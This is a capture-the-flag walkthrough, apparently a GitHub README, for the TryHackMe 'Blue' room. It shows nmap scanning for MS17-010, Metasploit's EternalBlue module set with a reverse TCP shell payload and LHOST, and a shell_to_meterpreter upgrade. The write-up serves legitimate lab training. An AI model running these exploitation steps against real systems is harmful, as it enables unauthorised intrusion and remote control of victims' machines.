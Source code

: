 # TryHackMe:Blue

Rememeber when looking at the notes IP stands for whatever the target or attacking machine is. 
To connect through VPN first donwload the file from tryhackme.  
next open your terminal and enter the command sudo openvpn followed by your the file name made

![alt text](image.png)

to make sure its working ping the IP provided by tryhackme

![alt text](image-1.png)

# Recon
run some nmap scans to gain information about the machine
nmap -sS -Pn -A -p- -T5 $ip  

you'll notice there are 3 ports open undre 1000

to find out what the machine is vulnerable to (if the form of ms)  run the command below
nmap -Ss -Pn -p 445 $ip --script smb-vuln-ms17-010.nse


# Access
run the msfconsole command to start metasploit 
next run search ms17-010

![alt text](image-4.png)

you can see its the first one so enter 
exploit/windows/smb/ms17_010_eternalblue as your answer

Show options and set the one required value. What is the name of this value? (All caps for submission)
use the options command use 0 next to get into the first exploit than run options afterwords

![alt text](image-5.png)

the asnwer is RHOSTS as you can see below

![alt text](image-6.png)

Set the rehost to the IP for the machine see example

![alt text](image-7.png)

normaly youd be okay to run but for the sake of learning more enter the following command and enter set payload windows/x64/shell/reverse_tcp
after that's done go head and run it 

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

make sure your local host is set right to that is found ip a.  use your ip address with the command set lhost ip to set it. 
run the run command again and wait this can take some time.  When it's finished you should run the whoami command and see this below

![alt text](image-8.png)




# Escalate

Now we background our current shell (Ctrl+Z) and convert our shell to a meterpreter shell.

![alt text](image-9.png)

msf6 > search shell_to_meterpreter
msf6 > use 0
We show options for the current selected exploit. We set LHOST and SESSION.

![alt text](image-10.png)

set LHOST <ip>
set SESSION <session-no.>


